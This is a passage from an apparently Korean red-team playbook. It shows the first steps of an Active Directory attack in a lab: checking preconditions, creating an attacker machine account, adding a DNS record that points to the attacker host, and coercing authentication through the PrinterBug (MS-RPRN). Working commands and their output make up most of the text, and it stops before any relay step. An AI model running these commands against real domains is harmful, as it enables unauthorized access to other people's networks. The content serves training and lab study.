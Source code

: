 ### 실습

꽤나 복잡한 공격이기 때문에 몇 가지 조건들을 확인한다.

1. 도메인 유저 권한을 가지고 있어야한다.
2. 도메인의 ms-DS-MachineAccountQuota 가 0 이상인지 확인한다
   1. `cme ldap <dc> -u <u> -p <p> -M maq`
3. 도메인 컨트롤러의 LDAP Signing 이 Not Required 상태인지 확인한다
   1. `cme ldap <dc> -u <u> -p <p> -M ldap-checker`
4. 타겟 서버가 WebDAV 서비스를 실행하고 있는지 확인한다
   1. `cme smb <target> -u <u> -p <p> -M webdav`

모든 조건들이 확인됐다면 공격을 시작한다.

1. 도메인 내 공격자 머신 계정을 생성한다.

```
└─# impacket-addcomputer choi.local/low:'Password123!' -dc-ip 192.168.40.150
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation
                                                                                                   
[*] Successfully added machine account DESKTOP-86TFUIC2$ with password ipIVa07EaG0gtxAQjUUNctIlBzesUPbI.
```

2. 공격자 머신 계정의 DNS 레코드를 LDAP을 통해 추가한다. 아래 명령어는 아까 생성한 `DESKTOP-8GTFUIC2$` 머신 계정의 DNS 레코드를 현재 공격자 컴퓨터인 `192.168.40.132` 에, 레코드 이름은 `redteamplaybook.choi.local` 로 추가했다.

```
└─# python3 dnstool.py -u choi.local\\'DESKTOP-86TFUIC2$' -p 'ipIVa07EaG0gtxAQjUUNctIlBzesUPbI' -a add -r redteamplaybook -d 192.168.40.132 ldaps://192.168.40.150                                    

[-] Connecting to host...                                                                                                                                                                             
[-] Binding to host                                                                                                                                                                                   
[+] Bind OK                                                                                        
[-] Adding new record                            
[+] LDAP operation completed successfully
```

이제 DNS 레코드를 확인해보면 redteamplaybook.choi.local 은 현재 공격자 머신의 IP 주소인 192.168.40.132 로 resolve가 된다.

```
└─# host redteamplaybook.choi.local
redteamplaybook.choi.local has address 192.168.40.132
```

3. 타겟 서버에게 강제 인증 공격을 실행한다. 강제 인증 자체는 MS-RPRN을 악용하는 Printerbug을 사용한다. 타겟 서버에게 "redteamplaybook@80/helloworld 라는 곳으로 가세요" 라고 얘기를 해주는데, 이는 사실상 `http://redteamplaybook.choi.local:80/helloworld` 와 같은 개념이다. 이 URL은 WebDAV 서비스가 Net-NTLM 트래픽을 사용해 방문할 것이다.

```
# FQDN이 아니라, 딱 호스트이름만 쓴다. 
└─# python3 printerbug.py choi.local/low:'Password123!'@192.168.40.151 redteamplaybook@80/helloworld
[*] Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Attempting to trigger authentication via rprn RPC at 192.168.40.151
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE - The RPC server is unavailable.
[*] Triggered RPC backconnect, this may or may not have worked
```
